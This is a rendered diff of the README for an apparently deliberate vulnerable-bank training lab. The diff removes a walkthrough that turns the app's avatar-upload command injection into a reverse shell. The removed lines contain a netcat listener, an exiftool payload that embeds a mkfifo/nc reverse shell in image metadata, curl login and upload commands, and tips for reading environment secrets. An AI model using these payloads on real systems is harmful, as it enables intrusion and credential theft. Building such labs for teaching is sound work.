

Before and after one commit to dodiventuraz/vuln_geeks_bank, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 92% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -60,7 +84,8 @@ Access the application via your browser at: **`http://localhost:3000`**
 
 > Note: on a bare Node.js host without **ImageMagick** installed, the avatar-upload RCE (#16)
 > still executes injected commands, but the thumbnail step degrades gracefully. For the full lab
-> experience (and the reverse shell walkthrough below), use **Method 1 (Docker)**.
+> experience (including the reverse shell walkthrough in **`vulnerability_list.md`**), use
+> **Method 1 (Docker)**.
 
 ### Verifying the vulnerabilities
 With the lab running, you can auto-check the deliberate flaws from the host:
@@ -80,50 +105,8 @@ This application contains various security flaws that are documented in detail i
 * Authentication bypass using the JWT `none` algorithm.
 * **OS Command Injection → Remote Code Execution (RCE)** via the avatar upload (image comment metadata).
 
----
-
-## 🧪 Lab Walkthrough: RCE Reverse Shell (Local Docker)
-
-This walkthrough demonstrates escalating the avatar-upload command injection (Vulnerability #16)
-into an interactive **reverse shell**, running entirely on your machine. Full payload variants and
-remediation notes are in **`vulnerability_list.md`**.
-
-**Setup:** the target runs inside the `vuln-geeks-bank` container (Method 1 above); the attacker
-tools run on your host. From inside the container, your host is reachable as
-**`host.docker.internal`** — use that as the callback address.
-
-**1. Start a listener on the host** (use `ncat` from Nmap, or `nc` in WSL/Git Bash):
-```bash
-ncat -lvnp 4444
-```
-
-**2. Craft a malicious image** — embed the payload in a real image's JPEG comment metadata
-(`ATTACKER_IP` → `host.docker.internal`):
-```bash
-exiftool -Comment='"; rm -f /tmp/f; mkfifo /tmp/f; (cat /tmp/f | /bin/sh -i 2>&1 | nc host.docker.internal 4444 > /tmp/f) & echo "' avatar.jpg
-```
-
-**3. Get a token and upload** (the front-end filter is client-side only, so send it directly):
-```bash
-TOKEN=$(curl -s http://localhost:3000/api/auth/login -H 'Content-Type: application/json' \
-  -d '{"email":"rangga@geekswarrior.id","password":"hunter2"}' | jq -r .token)
-
-curl -s -X POST http://localhost:3000/api/upload -H "Authorization: Bearer $TOKEN" \
-  -F 'avatar=@avatar.jpg;type=image/jpeg'
-```
-
-**4. Catch the shell** — an interactive `/bin/sh` connects back to your listener as the Node process
-user. Try `id`, `cat /app/server.js`, or `env` (leaks `JWT_SECRET`).
-
-**Warm-up check (no listener needed)** — prove code execution via the reflected output field:
-```bash
-exiftool -Comment='"; id; uname -a; echo "' avatar.jpg
-curl -s -X POST http://localhost:3000/api/upload -H "Authorization: Bearer $TOKEN" \
-  -F 'avatar=@avatar.jpg;type=image/jpeg' | jq -r .processingLog
-```
-
-> The reverse-shell payload is detached (`& ...`) so it survives the 10-second `child_process.exec`
-> timeout. Without detaching, the shell would drop after ~10 seconds.
+A full **RCE reverse-shell lab walkthrough** (including the local-Docker quick start) is provided in
+**`vulnerability_list.md`** under *"Lab Exercise: Reverse Shell via Avatar Upload"*.
 
 ---
 
````
Also changed, not shown: other parts of README.md (+24 -0 lines), vulnerability_list.md (+23 -0 lines).
